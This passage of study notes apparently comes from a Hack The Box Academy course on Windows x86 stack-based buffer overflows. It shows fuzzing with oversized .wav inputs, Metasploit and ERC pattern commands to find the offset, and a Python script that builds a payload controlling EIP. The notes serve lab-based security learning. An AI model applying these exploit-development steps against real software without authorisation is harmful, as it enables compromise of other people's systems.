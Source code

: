 ![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Windows%20x86/Images/Input_fields.png)

These are the main parameters we usually fuzz, but many other parameters may be exploitable as well.

```powershell-session
PS C:\Users\htb-student\Desktop> python -c "print('A'*10000)"
```

```powershell-session
PS C:\Users\htb-student\Desktop> python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP : 

So far, we have successfully fuzzed parameters and identified a vulnerable entry point. Our next step would be to precisely control what address gets placed in `EIP`

To create a unique pattern : 

```shell
NolanCarougeHTB@htb[/htb]$ /usr/bin/msf-pattern_create -l 5000
```

```shell
NolanCarougeHTB@htb[/htb]$ /usr/bin/msf-pattern_offset -q 31684630
```

```powershell-session
ERC --pattern c 5000
```

```powershell-session
ERC --pattern o 1hF0
```

Our final step is to ensure we can control what value goes into `EIP`. Knowing the offset, we know exactly how far our `EIP` is from the start of the buffer. So, if we send `4112` bytes, the next 4 bytes would be the ones that fill `EIP`.

```python
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)

eip_control()
```
